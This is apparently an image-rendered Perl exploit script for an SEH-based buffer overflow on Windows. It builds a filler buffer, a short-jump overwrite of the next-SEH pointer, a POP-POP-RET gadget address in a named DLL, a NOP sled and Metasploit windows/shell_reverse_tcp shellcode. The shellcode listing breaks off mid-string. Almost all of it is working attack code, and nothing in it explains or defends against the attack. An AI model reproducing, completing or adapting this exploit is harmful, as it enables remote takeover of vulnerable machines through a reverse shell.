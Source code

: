 ```perl
#!/usr/bin/perl

$offset = 16576 + 180;

# fills from start of buffer to SEH chain entry
$filler = "A"x$offset;

# fills the pointer to the next SEH record with {NOP; NOP; JMP +4} = 0x9090EB04
# execution returns to the start of these 4 bytes after the POP; POP; RET occurs
# must represent as little endian
$next_seh_ptr_overwrite = "\x04\xEB\x90\x90";

# a pointer to the {POP; POP; RET} gadget
# this is in the NSCRT.dll file
# target address = 0x7c37259f
# must represent as little endian
$seh_handler_ptr_overwrite = "\x9f\x25\x37\x7c";

# nops to pad front of shellcode in the case that the shellcode expands during decoding
$nops = "\x90"x32;

# Shellcode generated by Metasploit
# windows/shell_reverse_tcp - 710 bytes
# https://metasploit.com/
# Encoder: x86/alpha_mixed
# VERBOSE=false, LHOST=127.0.0.1, LPORT=4444, 
# ReverseAllowProxy=false, ReverseListenerThreaded=false, 
# StagerRetryCount=10, StagerRetryWait=5, 
# PrependMigrate=false, EXITFUNC=process, CreateSession=true, 
# AutoVerifySession=true
$shellcode = "\x89\xe2\xdb\xdf\xd9\x72\xf4\x58\x50\x59\x49\x49\x49\x49" .
"\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37\x51" .
"\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51\x32" .
"\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38\x41" .
"\x42\x75\x4a\x49\x79\x6c\x38\x68\x6e\x62\x37\x70\x63\x30" .
"\x77\x70\x55\x30\x6f\x79\x6a\x45\x66\x51\x6f\x30\x42\x44" .
"\x6c\x4b\x50\x50\x76\x50\x4e\x6b\x73\x62\x46\x6c\x6e\x6b" .
"\x61\x42\x66\x74\x4e\x6b\x34\x32\x74\x68\x34\x4f\x4f\x47" .
"\x43\x7a\x56\x46\x74\x71\x4b\x4f\x6e\x4c\x47\x4c\x33\x51" .
"\x31\x6c\x66\x62\x34\x6c\x67\x50\x6a\x61\x58\x4f\x74\x4d" .
"\x77\x71\x6f\x37\x58\x62\x7a\x52\x42\x72\x52\x77\x6c\x4b" .
"\x70\x52\x74\x50\x6e\x6b\x43\x7a\x77\x4c\x4c\x4b\x72\x6c" .
"\x72\x31\x73\x48\x5a\x43\x43\x78\x53\x31\x5a\x71\x46\x31" .
"\x4e\x6b\x50\x59\x47\x50\x33\x31\x4b\x63\x6c\x4b\x57\x39" .
"\x44\x58\x48\x63\x67\x4a\x70\x49\x4c\x4b\x35\x64\x4c\x4b" .
"\x35\x51\x6b\x66\x30\x31\x69\x6f\x6c\x6c\x6b\x71\x4a\x6f" .
"\x36\x6d\x75\x51\x68\x47\x45\x68\x6d\x30\x50\x75\x5a\x56" .
"\x46\x63\x61\x6d\x39\x68\x55\x6b\x61\x6d\x61\x34\x50\x75" .
"\x78\x64\x50\x58\x6e\x6b\x71\x48\x67\x54\x67\x71\x79\x43" .
"\x53\x56\x4e\x6b\x74\x4c\x32\x6b\x4c\x4b\x56\x38\x55\x4c" .
"\x75\x51\x79\x43\x6c\x4b\x57\x74\x4c\x4b\x75\x51\x68\x50" .
"\x4b\x39\x67\x34\x76\x44\x64\x64\x33\x6b\x71\x4b\x31\x71" .
"\x72\x79\x72\x7a\x32\x71\x49\x6f\x4d\x30\x31\x4f\x43\x6f" .
"\x50\x5a\x4c\x4b\x75\x42\x7a\x4b\x4c\x4d\x53\x6d\x35\x38" .
"\x70\x33\x45\x62\x67\x70\x73\x30\x45\x38\x51\x67\x34\x33" .
"\x30\x32\x63\x6f\x36\x34\x62\x48\x62\x6c\x73\x47\x54\x66" .
"\x56\x67\x69\x6f\x39\x45\x78\x38\x6e\x70\x67\x71\x55\x50" .
"\x53\x30\x66\x49\x4f\x34\x71\x44\x36\x30\x55\x38\x37\x59" .
"\x4d\x50\x72\x4b\x35\x50\x59\x6f\x58\x55\x42\x70\x50\x50" .
"\x50\x50\x72\x70\x31\x50\x76\x30\x57\x30\x46\x30\x72\x48" .
"\x58\x6a\x76\x6f\x49\x4f\x59\x70\x79\x6f\x6e\x35\x6c\x57" .
"\x50\x6a\x36\x65\x72\x48\x63\x4f\x43\x30\x47\x70\x47\x71" .
"\x50\x68\x75\x52\x47\x70\x72\x31\x53\x6c\x4b\x39\x39\x76" .
```